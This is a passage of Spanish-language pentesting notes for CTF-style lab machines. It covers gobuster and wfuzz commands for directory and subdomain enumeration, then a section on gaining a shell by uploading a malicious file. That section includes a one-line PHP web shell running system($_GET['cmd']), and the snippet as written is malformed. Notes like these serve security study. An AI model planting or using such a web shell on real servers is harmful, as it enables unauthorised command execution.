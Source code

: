 al hacer gobuster, le hacemos al dominio, ejemplo:

gobuster dir -t 200 -u http://hidden.lab/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -b 403,404 2>/dev/null

si no encontramos nada de directorios o arhivos, podemos enumerar también con gobuster los subdominios, ya que tiene un dominio.

gobuster vhost -u http://hidden.lab/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 20 | grep -v "302" 

con el grep "200" filtramos los estados 200

para agregar un subdomino en el /etc/hosts

dominio:
172.17.0.2		hidden.lab

subdominio:
172.17.0.2		dev.hidden.lab


otra forma de enumerar subdominios:

wfuzz -H "Host: FUZZ.404-not-found.hl" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://404-not-found.hl --hw 28

otra forma de enumerar subdominos:

gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://unique.nyx --append-domain

también puedo aplicar gobuster para buscar archivosy directorios a un subdominio:

gobuster dir -t 200 -u http://tech.unique.nyx/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null

-------------------------------------------------------------------------------

## 20.- si se nos permite subir un archivo malicioso con reverse shell, en cualquier lenguaje de backend, podemos acceder a la máquina de 2 formas:

nota: en ambas formas hay que colocar netcat en escucha con algún puerto.

Forma 1:

ubicar dónde se almacenó el archivo subido, generalmante en el directorio uploads y hacerle clic y listo.

Forma 2:

el reverse shell tiene el siguiente contenido:

<?php ?>
	system($_GET['cmd']);

ubicamos la carpeta dónde se subió, en la url y colocamos:

en el ejemplo se subió un archivo cmd.phar:
